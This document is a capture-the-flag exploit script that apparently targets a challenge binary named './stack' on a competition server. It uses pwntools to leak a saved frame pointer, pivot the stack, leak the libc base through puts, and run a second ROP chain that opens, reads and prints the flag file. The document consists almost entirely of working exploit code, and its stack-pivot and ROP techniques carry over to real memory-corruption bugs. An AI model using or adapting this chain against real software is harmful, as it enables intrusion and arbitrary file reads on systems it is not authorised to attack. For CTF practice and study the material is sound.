 ## EXPLOIT

```python
from pwn import *
context.terminal = ['tmux','splitw','-h']
GOLD_TEXT = lambda x: f'\x1b[33m{x}\x1b[0m'
EXE = './stack'

def payload(lo:int):
    global sh
    if lo:
        sh = process(EXE)
        if lo & 2:
            gdb.attach(sh)
    else:
        sh = remote('competition.blue-whale.me', 20532)
    libc = ELF('/home/Rocket/glibc-all-in-one/libs/2.23-0ubuntu11.3_amd64/libc.so.6')
    elf = ELF(EXE)
    gadgets = ROP(elf)
    readPlt = elf.plt['read']
    putsPlt = elf.plt['puts']
    putsGot = elf.got['puts']
    func = elf.symbols['func']
    rdi = gadgets.rdi.address
    leave = gadgets.leave.address

    # steal rbp first
    sh.sendafter(b'content', b'FLAG'.rjust(8 * 0x28))
    sh.recvuntil(b'FLAG')
    rbp = u64(sh.recv(6) + b'\0\0')
    rsp = rbp - 0x2a * 8
    info(GOLD_TEXT(f'Leak rsp: {hex(rsp)}'))
    # then stack pivot back and leak libc, return to func
    sh.sendafter(b'again:\n', (p64(rsp - 0x128) + p64(rdi) + p64(putsGot) + p64(putsPlt) + 
                               p64(func)).ljust(8 * 0x28) + p64(rsp) + p64(leave))

    # finally we stack pivot once more to operate orw
    puts = u64(sh.recvline()[:6] + b'\0\0')
    libcBase = puts - libc.symbols['puts']
    gadgets = ROP(libc)
    rsi = libcBase + gadgets.rsi.address
    rdx = libcBase + gadgets.rdx.address
    open64 = libcBase + libc.symbols['open64']
    success(GOLD_TEXT(f'Leak libcBase: {hex(libcBase)}'))
    sh.sendafter(b'content', b'skip this input')
    rsp -= 0x120
    sh.sendafter(b'again:\n', b'flag'.ljust(8, b'\0') + (
                 p64(rdi) + p64(rsp) + p64(rsi) + p64(0) + p64(open64) +
                 p64(rdi) + p64(3) + p64(rsi) + p64(rbp) + p64(rdx) + p64(0x50) + p64(readPlt) +
                 p64(rdi) + p64(rbp) + p64(putsPlt)).ljust(8 * 0x27) +
                 p64(rsp) + p64(leave))

    success(f'FLAG is: {sh.recvuntil(b"}").decode()}')
    sh.close()
```
